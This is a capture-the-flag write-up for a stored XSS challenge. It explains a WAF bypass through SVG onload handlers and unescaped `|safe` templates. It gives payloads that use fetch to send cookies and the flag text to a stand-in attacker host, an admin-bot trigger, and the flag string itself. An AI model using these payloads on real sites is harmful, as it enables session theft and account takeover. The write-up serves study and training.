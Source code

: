 # Notes

## Overview
The application contains a stored Cross-Site Scripting (XSS) vulnerability in the comment system. While there is a WAF (Web Application Firewall) in place, it has a critical bypass that allows SVG elements containing JavaScript to be executed.

## Vulnerability Details
1. **Location**: The vulnerability exists in the `/add_comment` endpoint in `app.py`
2. **Root Cause**: 
   - The WAF blocks `<script>` tags but allows SVG elements
   - The sanitization only removes script tags but leaves other dangerous elements
   - The `|safe` filter in templates renders the content without HTML escaping

## Exploitation Steps

1. **Craft malicious SVG payload**:
   ```html
   <svg onload="alert('XSS')">
   ```
   Or to steal cookies:
   ```html
   <svg onload="fetch('https://attacker.com/steal?cookie='+document.cookie)">
   ```

2. **Submit as a comment**:
   - Log in or post as anonymous
   - Submit the SVG payload in the comment form

3. **Admin viewing triggers the exploit**:
   - Report the malicious comment
   - When admin views the reported comment (either manually or via the admin bot), the XSS payload executes in their context
   - For the flag, we can target the `/admin/bot` endpoint which reveals the flag

## Full Exploit to Get Flag

1. Create a comment with this payload:
   ```html
   <svg onload="fetch('https://attacker.com/steal?flag='+document.querySelector('.alert').innerText)">
   ```
You can use webhook.site.

2. Report the comment to make it appear in the admin panel

3. When the admin bot or admin user views the comment, the payload will:
   - Extract the flag from the alert div
   - Send it to the attacker's server

### 🔥 **Flag:**  
```
CSP{XS5_15_ST1LL_D4NG3R0U5_1N_2025}
```
